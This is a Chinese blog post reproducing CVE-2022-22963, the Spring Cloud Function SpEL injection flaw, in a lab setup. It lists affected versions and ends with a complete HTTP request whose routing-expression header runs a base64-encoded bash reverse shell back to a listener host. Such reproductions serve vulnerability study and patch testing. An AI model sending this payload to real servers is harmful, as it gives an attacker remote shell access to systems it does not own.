



# 2022-CVE-2022-22963 Spring Cloud Function SPEL 表达式注入漏洞复现 - 逆向菜狗 - 博客园

> 原文：[`www.cnblogs.com/0x200/p/16122265.html`](https://www.cnblogs.com/0x200/p/16122265.html)

2022-CVE-2022-22963 Spring Cloud Function SPEL 表达式注入漏洞复现

2022 年 4 月 7 日

21:45

漏洞成因：

Spring Cloud Function 提供了一个通用的模型，用于在各种平台上部署基于函数的软件，包括像 Amazon AWS Lambda 这样的 FaaS（函数即服务，function as a service）平台。

漏洞影响版本：

3.0.0.RELEASE <= Spring Cloud Function <= 3.1.6

Spring Cloud Function <= 3.2.2

官方不再支持的旧版本

注：发布时间为 2019 年 11 月 22 日至 2022 年 2 月 17 日

不受影响版本

Spring Cloud Function 3.1.7

Spring Cloud Function 3.2.3

环境搭建，搭建好的环境在使用 BP 之后变成了如下内容：



漏洞利用方式，使用 BP 抓包发送，再 docker 中查看内容，发现成功创建了 success 文件：




这里尝试反弹 shell：

本地起一个 nc，可以直接反弹 shell 这里要说明的是需要对 payload 部分进行 java 的 payload

加密，否则不能正常反弹 shell。

```

POST /functionRouter HTTP/1.1

Host: 192.168.19.128:8080

Accept-Encoding: gzip, deflate

Accept: */*

Accept-Language: en

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36

Connection: close

spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMxLjI0NS80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}")

Content-Type: text/plain

Content-Length: 4

test

````

